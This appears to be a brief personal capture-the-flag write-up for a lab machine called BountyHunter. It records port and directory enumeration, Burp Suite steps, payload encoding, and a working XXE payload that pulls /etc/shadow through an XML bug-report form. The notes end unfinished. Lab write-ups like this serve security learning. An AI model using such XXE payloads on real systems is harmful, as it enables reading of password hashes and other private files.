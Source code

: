 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I 

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH 
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1: 
+ dirb ${IP} || dirb ${IP}/ -X .php
  + /assets/
  + /log_submit.php
  + /resources/
  
### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
  + Data needs to be *URL then Base64 decoded*
  + Find template https://github.com/payloadbox
  + adjust titles to mimic db.php titles
  + payload needs to be *Base64 then url encoded*
+ Send payload via Burp/Repeater.

#### db.php payload:
<?xml version="1.0" encoding="ISO-8859-1"?>
    <bugreport>
    <title>test</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>

#### payload file disclosure:
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <bugreport>
    <title>&ent;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>

Obtain Username: ${UN}

#Stuck on XML XXE
TODO: Study more
